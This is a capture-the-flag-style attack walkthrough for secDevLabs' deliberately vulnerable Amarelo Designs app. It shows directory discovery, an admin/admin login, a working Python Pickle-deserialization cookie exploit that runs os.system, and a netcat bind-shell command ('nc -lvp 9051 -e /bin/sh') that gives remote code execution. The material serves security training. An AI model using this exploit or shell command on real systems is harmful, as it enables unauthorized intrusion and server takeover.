







# Attack Narrative - Amarelo Designs
The main goal of this document is to describe how a malicious user could exploit a vulnerability, intentionally installed on Amarelo Designs from secDevLabs, to obtain a blind remote code execution.

If you don't know [secDevLabs] or this [intended vulnerable web application][2] yet, you should check them before reading this narrative.

---
## 👀

It's possible to reach the server's web application from the HTTP port 5000, as shown by the image below:


Making use of the [Dirb] tool to search for webpages, we were able to find `/user`, `/admin` and `/console`, as shown by the picture below: (If you want to install Dirb for Mac OS, be sure to click [here][4])

```sh
$ dirb http://localhost:5000 /usr/share/wordlists/dirb/common.txt
```

<p align="center">
    
</p>

When accessed, the `/admin` page exposes an authentication screen, as depicted by the image: 

<p align="center">
    
</p>

## 🔥

A quick test utilizing `admin` as the credentials for the `Username` and `Password` fields gives us acess to an Admin Dashboard, as shown below:



Now, using [Burp Suite] as proxy to intercept the login request, we can see that the app returns a session cookie, `sessionId`, as depicted below:



After decoding the cookie, which is in base64, the following structure was found:


The structure found is very similar to the ones created with the [Pickle] function. We can be certain of that by having a look at the app's [code][3]. The hint is now confirmed, the app uses Pickle, as we can see from the image below:




If an atacker knew that the app is using Pickle as the serialization method, he could create a malicious cookie to take advantage of it and execute code remotely. An example of the cookie is as shown:

```python
import pickle
import os
import datetime
import uuid
import subprocess
import base64
import sys
import requests

cmd = str(sys.argv[1])
url = str(sys.argv[2])

class Exploit(object):
    def __reduce__(self):
        return (os.system, (cmd, ))

pickle_result = pickle.dumps(Exploit())

result = base64.b64encode(pickle_result)

print result
print cmd
print url

cookie = {'sessionId': result}

print cookie

r = requests.get(url, cookies=cookie)
```

In order to be certain that the app is exploitable, we will send a sleep command to make the app unresposive for 10 seconds. If the app takes 10 seconds to return our request, than it's confirmed, the app is exploitable. As we can see from the image below, the app takes some time to return our request, thus confirming that it is exploitable and confirming the remote code execution: 

```sh
$ python serializaPickle.py "sleep 10" http://localhost:5000/user
```



In order to show how an attacker could have access to the server through a RCE, we will use the code depicted on the image below to create a bind shell on the server's 9051 port.

```sh
$ python serializaPickle.py "nc -lvp 9051 -e /bin/sh" http://localhost:5000/user
```



The code used above creates a bind shell on the server's port 9051, which is then listening for incoming connections. After that, the attacker can connect to that port using a simple [netcat] command, as shown below:

```sh
$ nc localhost 9051
```

<p align="center">
    
</p>


[secDevLabs]: https://github.com/globocom/secDevLabs
[2]: https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a8/amarelo-designs
[Dirb]: https://tools.kali.org/web-applications/dirb
[Burp Suite]: https://en.wikipedia.org/wiki/Burp_suite
[3]: https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2017-apps/a8/amarelo-designs/app/app.py
[Pickle]: https://docs.python.org/2/library/pickle.html
[netcat]: https://en.wikipedia.org/wiki/Netcat
[4]: https://github.com/globocom/secDevLabs/blob/master/docs/Dirb.md
